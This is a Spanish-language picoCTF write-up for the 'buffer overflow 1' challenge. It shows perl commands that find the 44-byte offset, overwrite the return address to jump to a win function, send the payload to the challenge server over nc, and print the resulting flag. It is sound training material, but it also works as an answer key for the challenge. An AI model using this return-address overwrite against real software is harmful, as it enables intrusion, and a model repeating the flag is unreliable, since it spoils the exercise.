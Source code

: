 # buffer overflow 1

# Objetivo
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln). You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 57736`

# Pistas
- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

# Solución
- Iniciamos la instancia
- Descargamos el programa y el codigo fuente
- Analisamos el código
- Buscamos el numero el cual nos permita sobrepasar el buffer
```
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-1]
└─$ perl -e "print 'A'x42" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
zsh: done                perl -e "print 'A'x42" | 
zsh: segmentation fault  ./vuln
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-1]
└─$ perl -e "print 'A'x43" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
zsh: done                perl -e "print 'A'x43" | 
zsh: segmentation fault  ./vuln
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-1]
└─$ perl -e "print 'A'x44" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x8049300
zsh: done                perl -e "print 'A'x44" | 
zsh: segmentation fault  ./vuln
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-1]
└─$ perl -e "print 'A'x45" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x8040041
zsh: done                perl -e "print 'A'x45" | 
zsh: segmentation fault  ./vuln
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-1]
└─$ 
```
- Sobreescribimos la pila haceindo lo sigueinte:
```
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-1]
└─$ perl -e 'print "A"x44 . "\xf6\x91\x04\x08";' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
aaaaaaaaaaaaaaaa
zsh: done                perl -e 'print "A"x44 . "\xf6\x91\x04\x08";' | 
zsh: segmentation fault  ./vuln
                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-1]
└─$ 
```
- Luego hacemos esto en la conexión de nc
```
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-1]
└─$ (perl -e 'print "A"x44 . "\xf6\x91\x04\x08";'; echo) | nc saturn.picoctf.net 59040
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}                                                                                  
┌──(kali㉿kali)-[~/picoctf/binary-explotation/buffer-overflow-1]
└─$ 
```
# Bandera
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}

## Notas adicionales
| comando | descripción |
| ------ | ------ |
| xx | xx |

## Referencias
- []()